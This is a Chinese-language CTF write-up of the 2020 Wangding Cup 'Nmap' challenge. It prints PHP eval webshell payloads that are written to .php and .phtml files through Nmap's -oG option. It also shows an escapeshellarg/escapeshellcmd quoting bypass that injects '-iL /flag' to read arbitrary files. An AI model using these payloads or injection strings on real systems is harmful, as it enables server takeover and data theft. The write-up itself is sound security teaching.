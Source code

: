 # [网鼎杯 2020 朱雀组]Nmap 通过nmap写入木马 argcmd过滤实现逃逸

这道题也很好玩 啊 原本以为是ssrf或者会不会是rce

结果是通过nmap写入木马

我们来玩一下

## 传入木马



<img src="https://i-blog.csdnimg.cn/blog_migrate/74e037ff932d968fbf1939af86a5637c.png" alt="" style="max-height:338px; box-sizing:content-box;" />


映入眼帘是nmap

我们首先就要了解nmap的指令

```diff
Nmap 相关参数
 
-iL 读取文件内容，以文件内容作为搜索目标
-o 输出到文件
 
    -oN 标准保存
    -oX XML保存
    -oG Grep保存
    -oA 保存到所有格式
```

我们将木马作为文件读取 然后输出到.php后缀中

```php
<?php @eval($_POST['attack']);?>  -oG hak.php
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8fa6917dda9be61a66ac2290c5d83873.png" alt="" style="max-height:131px; box-sizing:content-box;" />


我们换短标签看看

```php
<? echo @eval($_POST['attack']); ?>  -oG hak.php
```

发现还不行 我们看看是不是php过滤了



<img src="https://i-blog.csdnimg.cn/blog_migrate/4ee3135a53c5daa61365046290879e38.png" alt="" style="max-height:424px; box-sizing:content-box;" />


果然 那我们使用其他的 例如phtml

```swift
'<? echo @eval($_POST["a"]);?> -oG hck.phtml '
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8dd6f25f1506a4e8a90d8ed69b558415.png" alt="" style="max-height:134px; box-sizing:content-box;" />




<img src="https://i-blog.csdnimg.cn/blog_migrate/646bd9354127bdc20da919b5a19680f8.png" alt="" style="max-height:143px; box-sizing:content-box;" />


## 任意文件读取

这里我不知道师傅们怎么知道存在 escapshellarg()和escapshellcmd()的

但是我们可以通过这两个来了解

### escapshellarg()

这个的操作比较多

对类似非法的 进行 加引号和转义符

例如

'  ---->  '\''

### escapshellcmd()

这个是对非法进行加转义符

' ----> \'

我们这里可以进行尝试

127.0.0.1' -iL /flag 1.txt

#### 通过arg过滤是

'127.0.0.1'\'' -iL /flag 1.txt'

#### 然后通过 cmd转义

这里会匹配\ 为非法 进行转义

'127.0.0.1'\\'' -iL /flag -o 1.txt'

那么这里 \\ '' 就会识别为\

所以简化就是

'127.0.0.1'\ -iL /flag -o1.txt'

从而爆出读取失败的值

```undefined
这里报错值的原理是
 
去访问 文件 使用参数 -iL 
然后 读取失败 就会将读取的值报错出来
```

然后我们访问1.txt' 记得后面有一个逃逸的单引号

```vbnet
127.0.0.1'\ -iL /flag -o1.txt
```



<img src="https://i-blog.csdnimg.cn/blog_migrate/8877e04ec1962638fffeb0761005ffcc.png" alt="" style="max-height:194px; box-sizing:content-box;" />


就可以实现读取